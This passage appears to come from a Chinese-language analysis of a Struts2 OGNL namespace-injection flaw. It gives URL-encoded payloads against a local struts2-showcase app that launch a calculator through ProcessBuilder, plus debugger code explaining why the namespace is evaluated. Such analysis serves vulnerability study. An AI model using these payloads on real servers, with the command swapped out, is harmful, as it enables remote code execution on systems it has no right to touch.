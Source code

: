 ```

(%23ognlUtil.setExcludedPackageNames(''))%7D/actionChain1.action)
```

```
4\. http://127.0.0.1:8080/struts2-showcase/%24%7B%28%23_%3D%23attr%5B%27struts.valueStack%27%5D%29.%28%23context%3D%23_

.getContext%28%29%29.%28%23dm%3D%40ognl.OgnlContext%40DEFAULT_MEMBER_ACCESS%29.%28%23context.setMemberAccess%28%23dm%29%29.%28%23sl%3D%40java.io

.File%40separator%29.%28%23p%3Dnew%20java.lang.ProcessBuilder%28%7B%27bash%27%2C%27-c%27%2C%27xcalc%27%7D%29%29.%28%23p.start%28%29%29%7D/actionChain1.action
```

```
http://127.0.0.1:8080/struts2-showcase/$%7B(%23_%3D%23attr%5B'struts.valueStack'%5D).(%23context%3D%23_.getContext()).(%23dm%3D@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS)

.(%23context.setMemberAccess(%23dm)).(%23sl%3D@java.io.File@separator).(%23p%3Dnew%20java.lang.ProcessBuilder(%7B'bash'%2C'-c'%2C'xcalc'%7D)).(%23p.start())%7D/actionChain1.action)
```

预期的结果应该是弹出计算器应用程序:

![the calculator app](img/7c2e0581ee34b3b5505ab9b2d82e90bf.png)看看调试器中的有效负载有助于理解它为什么工作。注意，string/struts 2-showcase/${2+4}/actionChain1 . action 中的$ { 2+4 }在 Struts 中被称为**命名空间**，action chain 1 就是动作。

```
if (namespace == null) {
	namespace = invocation.getProxy().getNamespace(); // namespace is “/${2+4}”
}
…
String tmpLocation = actionMapper.getUriFromActionMapping(new ActionMapping(actionName, namespace, method, null));
setLocation(tmpLocation); // tmpLocation is “/${2+4}/register2.action”
super.execute(invocation);
```
